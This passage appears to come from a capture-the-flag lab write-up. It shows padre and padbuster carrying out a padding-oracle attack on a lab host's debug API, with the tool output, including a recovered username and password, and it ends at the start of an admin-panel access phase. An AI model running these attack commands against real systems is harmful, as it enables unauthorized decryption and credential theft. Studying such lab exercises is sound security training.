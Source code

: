 `chmod +x padre-linux-amd64`

`./padre-linux-amd64 -p 64 -err "Decryption error" -e lhex -u 'http://newyorkflankess.thm:8080/api/debug/$' '39353661353931393932373334633638EA0DCC6E567F96414433DDF5DC29CDD5E418961C0504891F0DED96BA57BE8FCFF2642D7637186446142B2C95BCDEDCCB6D8D29BE4427F26D6C1B48471F810EF4'`

```bash
[i] padre is on duty
[i] using concurrency (http connections): 64
[+] padding oracle confirmed
[+] detected block length: 16
[!] mode: decrypt
[1/1] stefan1197:ebb2B76@62#f??7cA6B76@6!@62#f6dacd2599\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f [64/64] | reqs: 7661 (90/sec)
      [!] Output was too wide to fit to you terminal. Redirect STDOUT somewhere to get full output
```

`padbuster  http://newyorkflankess.thm:8080/api/debug/39353661353931393932373334633638EA0DCC6E567F96414433DDF5DC29CDD5E418961C0504891F0DED96BA57BE8FCFF2642D7637186446142B2C95BCDEDCCB6D8D29BE4427F26D6C1B48471F810EF4 "39353661353931393932373334633638EA0DCC6E567F96414433DDF5DC29CDD5E418961C0504891F0DED96BA57BE8FCFF2642D7637186446142B2C95BCDEDCCB6D8D29BE4427F26D6C1B48471F810EF4" 16 -encoding 1`

```bash
[+] Success: (133/256) [Byte 16]
[+] Success: (250/256) [Byte 15]
[+] Success: (254/256) [Byte 14]
[+] Success: (174/256) [Byte 13]

[REDACTED] - SAME RESULT
```

> **Command Execution & Admin Panel Access Phase**
> 

`curl -iLX GET http://newyorkflankess.thm:8080/login.html`

```bash
HTTP/1.1 200 OK
Content-Length: 2670
Content-Type: text/html; charset=UTF-8

</head>
<body>
<div class="container">
    <div class="login-container">
        <div class="img-container">
            <img src="./oracle.png" class="img-fluid" alt="Background Image">
        </div>
        <form class="login-form" action="/api/login" method="get">
            <div class="form-group">
                <input type="text" class="form-control" id="username" name="username" placeholder="Username">
            </div>
            <div class="form-group">
                <input type="password" class="form-control" id="password" name="password" placeholder="Password">
            </div>
            <button type="submit" class="btn btn-primary btn-login">Login</button>
        </form>
    </div>
</div>
</body>
</html>

```
